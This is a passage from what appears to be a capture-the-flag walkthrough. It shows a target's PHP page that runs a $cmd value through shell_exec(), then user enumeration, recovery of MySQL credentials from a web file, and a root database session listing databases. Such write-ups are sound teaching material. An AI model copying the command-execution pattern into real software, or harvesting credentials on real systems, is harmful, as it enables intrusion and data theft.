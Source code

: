 ```highlight
                                                        background-repeat: no-repeat;
                                                        background-attachment: fixed;
                                                        background-size: cover;
        }
                                        </style>
<?php                                    return;
                                }
                        }
                }
                ?><h2 style="color:blue;"><?php echo shell_exec($cmd);?></h2>
                        <style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');  
                                   background-position: center center;
                                   background-repeat: no-repeat;
                                   background-attachment: fixed;
                                   background-size: cover;
}
                          </style>
        <?php }
?>
</body>
</html>
```

I can see 3 users 'aurick', 'apaar' and 'anurodh' however I could only access apaar's directory but couldn't read any files. I went back to /var/www to enumerate further and found the directory 'files'. Looking at index.php I found a mysql username and password. 

```highlight
$ mysql -u root -p
mysql -u root -p
Enter password: 

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 6
Server version: 5.7.31-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;                                            
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
5 rows in set (0.00 sec)

mysql> use webportal;
use webportal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
```
